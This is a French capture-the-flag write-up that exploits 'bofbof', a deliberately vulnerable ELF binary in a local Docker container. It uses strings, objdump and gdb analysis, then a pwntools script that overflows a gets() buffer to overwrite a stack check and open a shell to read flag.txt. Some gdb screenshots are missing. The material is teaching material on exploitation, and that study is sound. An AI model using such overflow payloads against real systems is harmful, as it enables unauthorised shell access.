




## Présentation du challenge

Le challenge contient :  
- `docker-compose.yml`: un fichier de configuration permettant d'accéder à un conteneur docker en local
- `bofbof`: un executable ELF x64, dynamically linked & not stripped

L'objectif du challenge est d'accéder au fichier `flag.txt` présent sur le docker.  
Le seul problème ? Le programme `bofbof` tourne déja sur le docker.  

## Première approche : étude de `bofbof`

Commençons par lancer `bofbof` (pensez à render le fichier éxecutable au préalable avec `chmod u+x bofbof`):

```
Comment est votre blanquette ?
>>>
```

Le programme demande une entrée utilisateur, rentrons `AAAAAA`.  
Cela ferme tout simplement le programme... la solution serait donc un stack buffer overflow ?

Regardons maintenant ce que donne `strings bofbof` : 

```
/lib64/ld-linux-x86-64.so.2
gets
fflush
exit
puts
printf
stdout
system
__cxa_finalize
__libc_start_main
libc.so.6
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
AAAAAAAAH
AAAAAAAAH9E
wfUD3"
[]A\A]A^A_
/bin/sh
Comment est votre blanquette ?
>>>
Almost there!
;*3$"
GCC: (Debian 10.2.1-6) 10.2.1 20210110
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.0
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
bofbof.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
_ITM_deregisterTMCloneTable
stdout@GLIBC_2.2.5
puts@GLIBC_2.2.5
vuln
_edata
system@GLIBC_2.2.5
printf@GLIBC_2.2.5
__libc_start_main@GLIBC_2.2.5
__data_start
__gmon_start__
__dso_handle
_IO_stdin_used
gets@GLIBC_2.2.5
__libc_csu_init
fflush@GLIBC_2.2.5
__bss_start
main
exit@GLIBC_2.2.5
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.got.plt
.data
.bss
.comment

```

On remarque plusieurs choses intéressantes, premièrement `bofbof` utilise la fonction `gets`: cette fonction est extrêmement vulnérable car elle prend une entrée utilisateur sans limite de taille, au point où `gcc` émet un warning quand elle est utilisée.
L'idée est donc bien de faire un stack buffer overflow !
De plus on remarque la présence de `system` et de `vuln`: l'executable contient une "faille" et semble capable d'accéder au système du conteneur et ainsi au `flag.txt`.

Essayons maintenant de lancer `bofbof` et cette fois de provoquer un buffer overflow :

```
Comment est votre blanquette ?
>>>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh :segmentation fault ./bofbof
```
Ok trop grand, réessayons : 

```
Comment est votre blanquette ?
>>>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Almost there!
```

D'accord donc le problème est plus fin qu'un overflow basique, passons aux choses sérieuses.

## Les choses sérieuses

Commençons par objdump, ce qui nous donne le disassembly de `vuln` et `main` de `bofbof` :

```
$ objdump -d bofbof

0000000000001185 <vuln>:
    1185:       55                      push   %rbp
    1186:       48 89 e5                mov    %rsp,%rbp
    1189:       48 8d 3d 78 0e 00 00    lea    0xe78(%rip),%rdi        # 2008 <_IO_stdin_used+0x8>
    1190:       e8 ab fe ff ff          call   1040 <system@plt>
    1195:       bf 01 00 00 00          mov    $0x1,%edi
    119a:       e8 e1 fe ff ff          call   1080 <exit@plt>

000000000000119f <main>:
    119f:       55                      push   %rbp
    11a0:       48 89 e5                mov    %rsp,%rbp
    11a3:       48 83 ec 30             sub    $0x30,%rsp
    11a7:       48 b8 41 41 41 41 41    movabs $0x4141414141414141,%rax
    11ae:       41 41 41
    11b1:       48 89 45 f8             mov    %rax,-0x8(%rbp)
    11b5:       48 8d 3d 54 0e 00 00    lea    0xe54(%rip),%rdi        # 2010 <_IO_stdin_used+0x10>
    11bc:       b8 00 00 00 00          mov    $0x0,%eax
    11c1:       e8 8a fe ff ff          call   1050 <printf@plt>
    11c6:       48 8b 05 8b 2e 00 00    mov    0x2e8b(%rip),%rax        # 4058 <stdout@GLIBC_2.2.5>
    11cd:       48 89 c7                mov    %rax,%rdi
    11d0:       e8 9b fe ff ff          call   1070 <fflush@plt>
    11d5:       48 8d 45 d0             lea    -0x30(%rbp),%rax
    11d9:       48 89 c7                mov    %rax,%rdi
    11dc:       b8 00 00 00 00          mov    $0x0,%eax
    11e1:       e8 7a fe ff ff          call   1060 <gets@plt>
    11e6:       48 b8 41 41 41 41 41    movabs $0x4141414141414141,%rax
    11ed:       41 41 41
    11f0:       48 39 45 f8             cmp    %rax,-0x8(%rbp)
    11f4:       74 26                   je     121c <main+0x7d>
    11f6:       48 b8 88 77 66 55 44    movabs $0x1122334455667788,%rax
    11fd:       33 22 11
    1200:       48 39 45 f8             cmp    %rax,-0x8(%rbp)
    1204:       75 0a                   jne    1210 <main+0x71>
    1206:       b8 00 00 00 00          mov    $0x0,%eax
    120b:       e8 75 ff ff ff          call   1185 <vuln>
    1210:       48 8d 3d 1d 0e 00 00    lea    0xe1d(%rip),%rdi        # 2034 <_IO_stdin_used+0x34>
    1217:       e8 14 fe ff ff          call   1030 <puts@plt>
    121c:       b8 00 00 00 00          mov    $0x0,%eax
    1221:       c9                      leave
    1222:       c3                      ret
    1223:       66 2e 0f 1f 84 00 00    cs nopw 0x0(%rax,%rax,1)
    122a:       00 00 00
    122d:       0f 1f 00                nopl   (%rax)
```

Ici, c'est surtout le `main` qui nous va nous intéresser on remarque premièrement l'appel à `vuln` :


```
120b:       e8 75 ff ff ff          call   1185 <vuln>
```

Mais on remarque surtout deux blocs qui expliquent que `vuln` n'est pas appelé en temps normal :

```
    11f0:       48 39 45 f8             cmp    %rax,-0x8(%rbp)
    11f4:       74 26                   je     121c <main+0x7d>
    
    .
    .
    .
    
    1200:       48 39 45 f8             cmp    %rax,-0x8(%rbp)
    1204:       75 0a                   jne    1210 <main+0x71>
```

Ces deux blocs empêchent le `main` d'appeler `vuln` : deux comparaisons forcent le programme à sauter plus loin dans 
le `main` et donc à skipper l'appel à `vuln`.  

Le premier bloc fonctionne de la façon suivante : le programme effectue une comparaison entre `eax` et `-0x8(%rbp)` 
(on reviendra plus tard sur cette valeur) et si les deux sont égaux alors le programme effectue le saut (`je` : jump if)
vers `<main+0x7d>`.

Le second compare là encore `eax` et `-0x8(%rbp)`et cette fois si les deux ne sont pas égaux alors le programme effectue 
le saut (`jne` : jump if not) vers `<main+0x71>`. 

Mais alors que vaut `eax` ? Deux lignes nous donne la réponse : 

```
11e6:       48 b8 41 41 41 41 41    movabs $0x4141414141414141,%rax

.
.
.

11f6:       48 b8 88 77 66 55 44    movabs $0x1122334455667788,%rax
```

Ainsi lors de la première comparaison `eax` vaut `0x4141414141414141` (soit 'AAAAAAAA' en ASCII).  
Lors de la seconde il vaut `0x1122334455667788`.

Maintenant tentons de comprendre ce que vaut `-0x8(%rbp)` pour cela lançons `gdb` et plaçons nous juste avant l'appel à
`gets` :




On a donc la valeur actuelle de `-0x8(%rbp)` et c'est celle-ci qu'il va falloir changer, l'objectif est donc d'y écrire 
`0x1122334455667788` pour que le programme ne prenne aucun des deux sauts.

Avançons donc d'une instruction pour voir où se trouve le buffer issu de `gets` :



On a donc l'emplacement du buffer dans la stack et surtout son emplacement relatif par rapport à `rbp` (différence de `0x38`).  
Ainsi, il faut rentrer par exemple `"A"*40 + 0x1122334455667788` pour réécrire correctement `-0x8(%rbp)`.

Il suffit maintenant d'effectuer ceci sur le conteneur docker et pour cela, nous allons utiliser un script python.

> Dans le cas d'un CTF le conteneur tourne sur un serveur du CTF, ici on peut le lancer localement avec `docker compose up --detach` (dans le dossier où se trouve le `docker-compose.yml`).  
> Pour arrêter le conteneur: `docker compose down` :wink:

## Le script

Voici `bofbof.py`

```python
from pwn import *

target = remote("localhost", 4000)      ## connection au docker
print(target.recv())
padding = b"A"*40                       ## construction de la réponse
payload = p64(0x1122334455667788)
print(padding+payload)
target.sendline(padding+payload)        ## envoi de la réponse
target.interactive()                    ## laisse le terminal du docker ouvert 
``` 

Lançons `bofbof.py` et regardons ce que cela donne : 



On a donc réussi à accéder à un terminal et `cat flag.txt` permet d'accéder à `flag.txt`.
